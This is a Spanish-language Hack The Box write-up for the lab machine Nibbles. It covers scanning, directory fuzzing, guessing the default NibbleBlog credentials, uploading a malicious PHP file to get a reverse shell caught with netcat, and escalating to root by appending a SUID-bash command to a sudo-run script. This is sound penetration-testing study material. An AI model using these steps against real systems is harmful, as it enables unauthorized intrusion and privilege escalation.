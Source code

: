 ```yaml
---
layout: post
title:  "OSCP Path ~ Nibbles de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada NIBBLES siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, PHP, Password Guessing, NibbleBlog, Maquinas Retiradas, Writeup, Hacking
---
```


# Nibbles ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.75       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Procedemos a hechar un vistazo visual del puerto 80 o servicio HTTP
```bash
"Encontramos esta ruta en el codigo fuente /nibbleblog/"
```
Hacemos un pequeño fuzzing con la herramienta`Wfuzz`:
```bash
# wfuzz -c -L --hc=404  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  http://10.10.10.75/nibbleblog/FUZZ        
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.75/nibbleblog/FUZZ
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                        
=====================================================================

000000062:   200        18 L     82 W       1353 Ch     "content"                                                                      
000000114:   200        20 L     104 W      1741 Ch     "themes"                                                                       
000000246:   200        22 L     126 W      2127 Ch     "admin"                                                                        
000000506:   200        30 L     214 W      3777 Ch     "plugins"                                                                      
000000884:   200        63 L     643 W      4624 Ch     "README"                                                                       
000000922:   200        27 L     181 W      3167 Ch     "languages"                                                                    
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing 
```
Chequeamos el `Wapalizzer` y nos reporta que esta construida en lenguaje `PHP` vamos a hechar un vistazo a las rutas encontradas:
En la ruta `/admin.php` encontramos un panel loguin.
En las demas rutas encontramos los recursos de la pagina web.

# Password Guessing
Nos montamos un pequeño diccionario para intentar advinar las credenciales por defecto:
```bash
admin
Administrator
root
{Nombre de la Box}
password
Password
Pass
```
Probamos con las credenciales que podrian ser contraseñas por defecto y obtenemos un resultado correcto para `admin:nibbles`.
Una vez dentro del panel del CMS NibbleBlog procedemos a apuntar a los plugins, mas concretamente al plugin de `My_Images`
Nos metemos en la opcion de `Configuracion` de ahi vemos que podemos subir archivos.

# File Upload ~ Vulnerability
Probamos a subir una archivo `Malicioso en PHP` y vemos que efectivamente se sube correctamente. Ahora apuntando a nuestro archivo en PHP para que se interprete
y con una session de `nc -vlnp 1234` abierta.. Recibimos la Conexion entrante. 

Direccion de nuestro archivo `"http://10.10.10.75/nibbleblog/content/private/plugins/my_image/"`

Entramos como el usuario:
```bash
# nc -vlnp 1234         
listening on [any] 1234 ...
connect to [10.10.15.4] from (UNKNOWN) [10.10.10.75] 48890
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:57:27 up 33 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
"nibbler"
```
Nos movemos al directorio `/home/` y pillamos la Flag del `User.txt`
```bash
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
```

# Escalada de privilegios
Procedemos a ver los privilegios que tenemos con el comando `sudo -l`
```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

"User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh"
```
Vemos que tenemos una archivo llamado `monitor.sh` el cual podemos ejecutar como `root` sin proporcionar contraseña.
Procedemos a usar el comando `unzip` para descomprimir el archivo encontrado `personal.zip`
```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
"Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh"
```
Ya tenemos el archivo `monitor.sh` vamos a ver si podemos modificarlo para luego poder ejecutarlo como `root`:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la monitor.sh 
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```
Vemos que si, asique porque no vamos a meterle un comando para escalar privilegios cuando Nosotros como `root` ejecutemos el archivo encuestion.
Metemos este Comando `chmod u+s /bin/bash` al final de `monitor.sh`
Procedemos a ejecutar el archivo como root:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
```
Comprobamos si nos ha hecho el comando como root y si la `/bin/bash` tiene ahora permisos SUID para hacer un `bash -p` y convertirnos en root.
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```
Nos convertimos a `root`:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root/
bash-4.3# cat root.txt 
5ad46c3fceb79f2a7407ceexxxxxxxxxxxxxx
```

Maquina Rooteada =) Seguimos Full Hacks
